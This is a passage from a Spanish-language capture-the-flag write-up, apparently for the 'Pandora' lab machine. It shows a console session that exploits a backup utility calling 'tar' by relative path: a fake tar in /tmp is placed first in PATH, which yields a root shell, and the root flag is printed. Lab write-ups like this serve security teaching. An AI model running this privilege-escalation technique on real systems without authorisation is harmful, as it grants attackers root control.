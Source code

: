 Por lo que vemos en este output, el binario en cuestión utiliza la herramienta **`tar`** para comprimir los archivos sobre los que trabaja.
El problema en este punto es que se hace una llamada relativa al binario **`tar`**, y podemos aprovecharnos de esto para realizar **`PATH Hijacking`**,
de forma que suplantamos el archivo al que apunta para lograr ejecutar comandos privilegiados.

```console
matt@pandora:~$ cd /tmp
matt@pandora:/tmp$ touch tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ which sh | xargs > tar
matt@pandora:/tmp$ cat tar
/usr/bin/sh
matt@pandora:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/tmp$ export PATH=/tmp:$PATH
matt@pandora:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/tmp$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# whoami
root
# bash
root@pandora:~# cat /root/root.txt
e022c509e40ddca23ad52ddde3b3c978
```

### ¡Gracias por leer hasta el final!

#### Nos vemos en un próximo. ¡Feliz hacking! ☠